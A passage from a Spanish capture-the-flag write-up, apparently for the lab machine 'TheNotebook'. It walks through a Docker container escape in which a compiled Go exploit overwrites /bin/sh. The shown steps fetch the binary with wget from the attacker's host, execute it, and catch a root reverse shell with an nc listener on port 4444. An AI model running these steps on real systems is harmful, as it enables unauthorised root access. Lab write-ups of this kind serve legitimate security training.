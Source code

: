 En este caso que nos abra una reverse shell en nuestro puerto 4444.

Compilamos el `main.go` con `go build main.go` y lo subimos al servidor dentro del container que se nos permite ejecutar. Para entrar:

```bash
sudo docker exec -it webapp-dev01 bash
```

Para subirlo servidor python en nuestra máquina y `wget` desde el contenedor.

### Ejecutar exploit

Para esta parte vamos a necesitar dos terminales abiertas en la cuenta de `noah` y otra en nuestro ordenador haciendo de listener, ya que el trigger del exploit se da en el siguiente acceso al container después de ejecutarlo. Una dentro de `noah` ya la tenemos con el container.

Como hemos comentado en la primera terminal dentro de `noah` entramos en el contenedor y ejecutamos el exploit:

```bash
noah@thenotebook:~$ sudo docker exec -it webapp-dev01 bash
root@4d2c0e3e35c1:/opt/webapp# ls
__pycache__  admin  create_db.py  main.py  privKey.key  requirements.txt  static  templates  webapp.tar.gz
root@4d2c0e3e35c1:/opt/webapp# wget http://10.10.16.46:8000/main
--2021-07-30 18:15:16--  http://10.10.16.46:8000/main
Connecting to 10.10.16.46:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2236814 (2.1M) [application/octet-stream]
Saving to: ‘main’

main                         100%[==============================================>]   2.13M  1.04MB/s    in 2.1s

2021-07-30 18:15:18 (1.04 MB/s) - ‘main’ saved [2236814/2236814]

root@4d2c0e3e35c1:/opt/webapp# chmod +x main
root@4d2c0e3e35c1:/opt/webapp# ./main
[+] Overwritten /bin/sh successfully

```

En la segunda entramos también en el contenedor pero utilizamos /bin/sh en vez de bash, ya que es el binario que se reescribe:

```bash
noah@thenotebook:~$ sudo docker exec -it webapp-dev01 /bin/sh
No help topic for '/bin/sh'
noah@thenotebook:~$
```

Nos echa inmediatamente pero en nuestro listener obtenemos una shell con root:

```bash
┌──(galahad㉿orfelia)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.46] from (UNKNOWN) [10.10.10.230] 54604
bash: cannot set terminal process group (9573): Inappropriate ioctl for device
bash: no job control in this shell
<d6bad03de53cbc218feeee8f50a64957752209bfab7703ac9# whoami
root
```

Solo hay que navegar hasta la flag y cogerla.

